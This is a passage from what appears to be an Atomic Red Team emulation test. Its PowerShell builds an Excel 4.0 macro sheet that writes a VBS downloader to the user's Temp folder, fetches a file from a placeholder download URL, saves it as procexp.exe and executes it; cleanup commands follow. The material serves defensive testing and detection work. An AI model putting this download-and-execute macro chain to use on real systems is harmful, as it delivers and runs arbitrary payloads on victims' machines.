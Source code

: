 ```powershell
  $sheet.Cells.Item(1,1) = "#{uname}"
} else {
  $sheet.Cells.Item(1,1) = "=GET.WORKSPACE(26)"
}

$sheet.Cells.Item(2,1) = "procexp.exe"
$sheet.Cells.Item(3,1) = "atomic_redteam_x4m_exec.vbs"
$sheet.Cells.Item(4,1) = "=IF(ISNUMBER(SEARCH(`"64`",GET.WORKSPACE(1))), GOTO(A5),)"
$sheet.Cells.Item(5,1) = "=FOPEN(`"C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A3&`"`", 3)"
$sheet.Cells.Item(6,1) = "=FWRITELN(A5, `"url = `"`"#{download_url}`"`"`")"
$sheet.Cells.Item(7,1) = "=FWRITELN(A5, `"`")"
$sheet.Cells.Item(8,1) = "=FWRITELN(A5, `"Set winHttp = CreateObject(`"`"WinHTTP.WinHTTPrequest.5.1`"`")`")"
$sheet.Cells.Item(9,1) = "=FWRITELN(A5, `"winHttp.Open `"`"GET`"`", url, False`")"
$sheet.Cells.Item(10,1) = "=FWRITELN(A5, `"winHttp.Send`")"
$sheet.Cells.Item(11,1) = "=FWRITELN(A5, `"If winHttp.Status = 200 Then`")"
$sheet.Cells.Item(12,1) = "=FWRITELN(A5, `"Set oStream = CreateObject(`"`"ADODB.Stream`"`")`")"
$sheet.Cells.Item(13,1) = "=FWRITELN(A5, `"oStream.Open`")"
$sheet.Cells.Item(14,1) = "=FWRITELN(A5, `"oStream.Type = 1`")"
$sheet.Cells.Item(15,1) = "=FWRITELN(A5, `"oStream.Write winHttp.responseBody`")"
$sheet.Cells.Item(16,1) = "=FWRITELN(A5, `"oStream.SaveToFile `"`"C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A2&`"`"`", 2`")"
$sheet.Cells.Item(17,1) = "=FWRITELN(A5, `"oStream.Close`")"
$sheet.Cells.Item(18,1) = "=FWRITELN(A5, `"End If`")"
$sheet.Cells.Item(19,1) = "=FCLOSE(A5)"
$sheet.Cells.Item(20,1) = "=EXEC(`"explorer.exe C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A3&`"`")"
$sheet.Cells.Item(21,1) = "=WAIT(NOW()+`"00:00:05`")"
$sheet.Cells.Item(22,1) = "=EXEC(`"explorer.exe C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A2&`"`")"
$sheet.Cells.Item(23,1) = "=HALT()"
$sheet.Cells.Item(1,1).Name = "runme"
$xlApp.Run("runme")
$xlApp.Quit()

[System.Runtime.Interopservices.Marshal]::ReleaseComObject($xlBook) | Out-Null
[System.Runtime.Interopservices.Marshal]::ReleaseComObject($xlApp) | Out-Null
[System.GC]::Collect()
[System.GC]::WaitForPendingFinalizers()

Remove-Variable xlBook
Remove-Variable xlApp
```

#### Cleanup Commands:

```powershell
Stop-Process -Name "procexp*" -ErrorAction Ignore
Remove-Item "$env:TEMP\atomic_redteam_x4m_exec.vbs" -ErrorAction Ignore
Remove-Item "$env:TEMP\procexp.exe" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!
